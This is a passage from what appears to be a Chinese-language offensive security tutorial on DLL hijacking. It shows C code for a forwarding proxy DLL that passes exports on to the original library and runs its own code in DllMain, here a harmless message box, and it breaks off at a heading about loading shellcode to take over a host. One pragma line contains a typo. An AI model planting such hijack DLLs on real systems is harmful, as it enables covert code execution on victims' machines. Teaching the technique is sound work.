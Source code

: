 ```
    else 
    {
        printf("获取句柄失败");
        system("pause");
    }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtzTxCD2DBbTsxZicFKnPfTNiaMU926f36Ea73maIibQXbc4eVkEbtVe77e8K4bTFzeJCibhibfdsPeqtw/640?wx_fmt=png)

**0x05 转发式 DLL 劫持**
-------------------

简而言之，不影响程序 本身功能的同时执行恶意 dll

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtzTxCD2DBbTsxZicFKnPfTNTkg6pjq1SQBmnHibQwEZyjcyb2L93YxhompmM7kFun1ZkKHiapKGPLLw/640?wx_fmt=png)

举个栗子：

将原来的 dll 名写在转发方法里，然后将生成的 dll 文件重命名为劫持的 dll 文件名：

```
#include "pch.h"
#include "windows.h"
//开始转发，将函数方法转发
//导出函数
#pragma comment(linker,"/EXPORT:add=testdll.add,@1")
#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")
//入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        MessageBox(NULL, L"hacked by cxk", L"hi", MB_OK);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {

    }

    return TRUE;
}
```

然后将 dll 放在 exe 同一目录，已经劫持成功了：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtzTxCD2DBbTsxZicFKnPfTNRyFp7aLV29dblSmyhnXthl1rszlaXGq1AOQKWNmmyZPPe0ibOW5CJaA/640?wx_fmt=png)

0x06 使用 DLL 劫持上线主机
------------------

### dll 加载 shellcode 上线

